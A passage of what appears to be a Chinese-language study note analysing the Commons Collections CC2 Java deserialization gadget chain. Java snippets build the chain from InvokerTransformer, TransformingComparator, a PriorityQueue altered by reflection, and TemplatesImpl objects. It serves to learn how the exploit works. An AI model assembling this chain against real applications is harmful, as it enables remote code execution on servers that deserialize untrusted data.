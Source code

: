 网上先辈的：使用`TransformingComparator`来调用`transform`

```java
InvokerTransformer transformer = new InvokerTransformer("newTransformer", null, null);
TransformingComparator transformer_comparator = new TransformingComparator(transformer);
```

![image-20230623231301740](https://raw.githubusercontent.com/todis21/image/main/image-20230623231301740.png)

`TransformingComparator`类是一个`Comparable `对象的`comparator`比较器，实现了`Serializable`接口

![image-20230623231607770](https://raw.githubusercontent.com/todis21/image/main/image-20230623231607770.png)

`TransformingComparator`类的compare方法中通过transformer属性来调用transform方法的，如果想要调用InvokerTransformer类的transform方法，可以把InvokerTransformer传给TransformingComparator类的构造来设置transformer属性

![image-20230623231840514](https://raw.githubusercontent.com/todis21/image/main/image-20230623231840514.png)

所以才有了上面的：

```java
InvokerTransformer transformer = new InvokerTransformer("newTransformer", null, null);
TransformingComparator transformer_comparator = new TransformingComparator(transformer);
```



下一步：如何调用`TransformingComparator`的`compare`方法？

根据POC 这里使用的是PriorityQueue集合，PriorityQueue是一个优先队列，每次排序都会触发comparator比较器的compare方法，并且PriorityQueue还重写了readObject方法（反序列化漏洞必要的利用条件）。

![image-20230624152437651](https://raw.githubusercontent.com/todis21/image/main/image-20230624152437651.png)

这里使用了`heapify()`方法，该方法里面调用了siftDown()

![image-20230624152601658](https://raw.githubusercontent.com/todis21/image/main/image-20230624152601658.png)

查看siftDown():

![image-20230624152721157](https://raw.githubusercontent.com/todis21/image/main/image-20230624152721157.png)

其中`siftDownUsingComparator`方法里存在我们想要的`compare`方法，并且参数可控

![image-20230624152823718](https://raw.githubusercontent.com/todis21/image/main/image-20230624152823718.png)

后面的有点看不懂了，参考先辈的原话：

从siftDown方法中可以看出PriorityQueue队列中的comparator属性是一个比较器并且还是可控的，如果comparator属性指定为TransformingComparator比较器的话，不就可以调用TransformingComparator的compare方法了吗，于是万能的反射再次登场了，通过反射将PriorityQueue队列中的comparator属性设置为TransformingComparator比较器，这样PriorityQueue集合在反序列化过程中就会调用comparator比较器了，不得不说PriorityQueue集合完美的符合我们需要构造的利用链。

```java
 //触发漏洞
PriorityQueue queue = new PriorityQueue(2);
queue.add(1);
queue.add(1);

//设置comparator属性
Field field = queue.getClass().getDeclaredField("comparator");
field.setAccessible(true);
field.set(queue, transformer_comparator);

//设置queue属性
field = queue.getClass().getDeclaredField("queue");
field.setAccessible(true);
//队列至少需要2个元素
Object[] objects = new Object[]{TemplatesImpl_instance, TemplatesImpl_instance};
field.set(queue, objects);
```